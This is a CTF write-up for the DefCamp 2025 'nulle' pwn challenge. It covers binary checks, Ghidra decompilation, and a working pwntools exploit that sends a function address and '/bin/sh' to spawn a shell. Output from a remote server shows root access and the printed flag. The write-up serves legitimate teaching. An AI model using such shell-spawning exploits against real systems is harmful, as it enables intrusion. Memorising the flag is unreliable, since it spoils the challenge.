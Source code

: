 ```yaml
---
name: nulle (2025)
event: DefCamp Qualifiers CTF 2025
category: Pwn
description: Writeup for nulle (Pwn) - DefCamp Qualifiers CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# nulle

## Description

> Our developer got a bit too clever with C structs. They decided that if two structs have the same fields, just in a different order, it’s fine to cast between them.

## Solution

It's been ages since I did any pwn challenges, so starting off with an easy one.

### Basic File Checks

Start by checking the file type. The important thing here is it's a 64-bit LSB binary, it's dynamically linked (ret2libc?) and stripped (we won't see variable/function names).

```bash
file main

main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b60a9da788119e1c0d0b0584c088e3e83c204eec, for GNU/Linux 3.2.0, stripped
```

Next up, the binary protections. There's no stack canary, meaning if we find a buffer overflow, it will be trivial to overwrite the return address and gain control of the execution flow. NX is enabled, so we won't be able to any injected execute shellcode on the stack. Finally, PIE is disabled, so the addresses in the program won't change on each execution.

```bash
checksec --file main

[*] '/home/crystal/Desktop/bug/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The final "basic" file check is to run the program.

```bash
./main

is your
please input something
meow
Segmentation fault
```

### Static Analysis

We want to understand the functionality of the program, so open in a disassembler. I opt for ghidra as it also does a nice attempt at decompilation (which ChatGPT can often convert to working C, python etc) and has syntax highlighting.

![](images/0.PNG)

The symbols are stripped (as we saw earlier), so I'll start by reviewing each function and renaming variables. Here's the main function (called by `entry`).

```c
PTR_printf_s_00404160 = printf_s;
printf_s(s_is_your_00404060);
disable_buffering();
puts("please input something");
read(0,s_is_your_00404060,256);
exec_code(s_is_your_00404060);
return 0;
```

The `printf_s` function is just a wrapper for `printf`. It takes a pointer to a string (`%s` format specifier).

```c
printf("%s",param_1);
return;
```

The `disable_buffering` function is uninteresting - it's included in pwn challenges for performance reasons.

The user is asked to "please input something" and then 256 bytes of data are read from stdin to the location we saw printed at the beginning; "is your"

Crucially, the pointer to this location is then passed to a function which I renamed to `exec_code`.

```c
(*(code *)*param_1)(param_1 + 1);
return;
```

It will take the `param_1` (the string in `.data` we wrote to) and execute it as a function. Furthermore, `param_1 + 1` will be provided as a parameter.

If we look around the program for an interesting function to execute, we will find one which I renamed to `win`.

```c
system(param_1);
return;
```

![](images/1.PNG)

This is even easier than typical ret2win challenges, since no stack buffer overflow is required. We can just supply the address of `win` (`0x4011b6`) and the string we would like to pass to it (`/bin/sh`).

### Solve Script

I use a [template](https://github.com/Crypto-Cat/CTF/blob/main/pwn/official_template.py) for pwntools scripts. In this case, I stripped out all the buffer overflow related functionality.

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './main'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Build the payload
payload = p64(0x4011b6) + b'/bin/sh'

# Send the payload
io.sendlineafter(b'something', payload)

# Got Shell?
io.interactive()
```

We can run the script locally and see we get a shell.

```bash
python exploit.py

[+] Starting local process './main': pid 888495
[DEBUG] Received 0x1f bytes:
    b'is your\n'
    b'please input something\n'
[DEBUG] Sent 0x10 bytes:
    00000000  b6 11 40 00  00 00 00 00  2f 62 69 6e  2f 73 68 0a  │··@·│····│/bin│/sh·│
    00000010
[*] Switching to interactive mode

$
```

The cool thing about the template, is we can easily repeat this against the remote server now without changing the code at all.

```python
python exploit.py REMOTE 34.89.179.154 32034

[+] Opening connection to 34.89.179.154 on port 32034: Done
[DEBUG] Received 0x1f bytes:
    b'is your\n'
    b'please input something\n'
[DEBUG] Sent 0x10 bytes:
    00000000  b6 11 40 00  00 00 00 00  2f 62 69 6e  2f 73 68 0a  │··@·│····│/bin│/sh·│
    00000010
[*] Switching to interactive mode

$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0x5 bytes:
    b'root\n'
root
$ cat /home/solver/flag.txt
[DEBUG] Sent 0x1a bytes:
    b'cat /home/solver/flag.txt\n'
[DEBUG] Received 0x45 bytes:
    b'CTF{53c4abb4d8484a0dceb0840356114dc43dabc0855ae22d84ae5bba996aa54c0a}'
```

Flag: `CTF{53c4abb4d8484a0dceb0840356114dc43dabc0855ae22d84ae5bba996aa54c0a}`
